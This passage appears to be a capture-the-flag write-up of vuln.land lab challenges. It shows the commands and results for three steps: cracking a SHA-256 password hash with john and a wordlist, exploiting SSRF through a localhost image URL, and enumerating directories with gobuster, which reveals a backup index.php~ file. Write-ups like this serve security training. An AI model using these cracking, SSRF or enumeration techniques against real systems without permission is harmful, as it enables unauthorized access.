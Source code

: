 - to find out which hash function was used, we let an [online site](https://www.tunnelsup.com/hash-analyzer/) detect that -> `SHA2-256`

- based on that we prepared the john statement

```sh
john hashes.txt --format=raw-sha256 --wordlist=10-million-password-list-top-10000.txt
```

```sh
q1w2e3r4         (victor)
```

# GlockenEmil 2.0 - SSRF Server Side Request Forgery

- on the first page we see a broken picture. After inspecting the URL we noticed the internal URL that is used to store pictures

```url
https://069c3f58-1073-45a5-a6ff-4f8858a6beca.idocker.vuln.land/post-images/http://localhost:8765/file001.jpg
```

- based on that we tried to create a community post ourselves. For the image URL we used the `localhost` directly

```url
http://localhost:8765/file001.jpg
```

- we tried to create another post but this time with `files002.jpg`

```
java -> iLikeTrains
```

# Historia Animalum

- prepared and executed the gobuster command

```sh
gobuster dir -d -e -u https://742faade-8b87-424d-adb6-c85129821041.idocker.vuln.land/ -w /usr/share/wordlists/dirb/common.txt
```

```sh
> gobuster dir -d -e -u https://742faade-8b87-424d-adb6-c85129821041.idocker.vuln.land/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://742faade-8b87-424d-adb6-c85129821041.idocker.vuln.land/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2023/10/18 23:43:36 Starting gobuster in directory enumeration mode
===============================================================
https://742faade-8b87-424d-adb6-c85129821041.idocker.vuln.land/css                  (Status: 301) [Size: 169] [--> http://742faade-8b87-424d-adb6-c85129821041.idocker.vuln.land/css/]
https://742faade-8b87-424d-adb6-c85129821041.idocker.vuln.land/index.php~           (Status: 200) [Size: 5021]
https://742faade-8b87-424d-adb6-c85129821041.idocker.vuln.land/index.php            (Status: 200) [Size: 4134]
```